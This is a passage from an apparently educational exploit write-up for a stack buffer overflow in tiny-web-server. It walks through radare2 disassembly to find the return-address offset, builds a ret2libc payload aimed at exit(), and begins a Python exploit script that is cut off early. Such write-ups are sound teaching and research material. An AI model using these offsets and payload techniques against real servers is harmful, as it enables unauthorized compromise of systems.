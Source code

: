 
`url_decode()` finishes, and it's calling function `parse_request()` finishes immediately after as well, returning to it's calling function `process()`.


## Developing a Proof-of-Concept Exploit

There were a few things to figure out before I could write a working exploit. I knew the vulnerable buffer was 512 bytes, which meant I needed to figure out how far from the start of the buffer the return address was stored.

I opened the binary in radare2 and looked at the disassembled instructions for the function `process()`. 

```
|   sym.process (int arg_8h, int arg_ch);  
|           ; var int local_278h @ ebp-0x278
|           ; var int local_268h @ ebp-0x268
|           ; var int local_24ch @ ebp-0x24c
|           ; var int local_220h @ ebp-0x220
|           ; var int local_20h @ ebp-0x20
|           ; var int local_1ch @ ebp-0x1c
|           ; var int local_18h @ ebp-0x18
|           ; var int local_14h @ ebp-0x14
|           ; var int local_10h @ ebp-0x10
|           ; var int local_ch @ ebp-0xc
|           ; arg int arg_8h @ ebp+0x8
|           ; arg int arg_ch @ ebp+0xc
```

By looking at the local variables and their offsets from $ebp, I was able to locate the vulnerable buffer at $ebp-0x220. This told me the buffer was 0x220(544) bytes from the beginning of the stack frame. The previous saved ebp would follow this, and then the return address. This meant overwriting a total of 544+4+ret bytes to overwrite the return address. 

This was enough to write a simple exploit. 


### PoC1: ret2libc: exit()

Since the stack was set to noexec, a classic return-to-libc was the go-to choice. `exit()` seemed like a good place to start for a first PoC exploit for this bug, so I fired up radare again and got the address of the imported `exit()`.

```
[0x08048af0]> is | grep exit
vaddr=0x08048950 paddr=0x00000950 ord=018 fwd=NONE sz=16 bind=GLOBAL type=FUNC name=imp.exit
```

With this information I knew the payload would be [544 bytes]+[0x08048950]. To make things cleaner, I decided I would have `exit()` return and immediately jump to `exit()` again to cleanly terminate the parent process to deal with the forking.

This was the final exploit code:


```py
#!/usr/bin/env python
## tiny-web-server x86 ret2libc exit() exploit - Ubuntu 16.04
from struct import pack
from os import system
from sys import argv
buf_size = 0

# Allow for custome buffer size setting
if len(argv) != 2:
    buf_size = 548
else:
    buf_size = argv[1]

```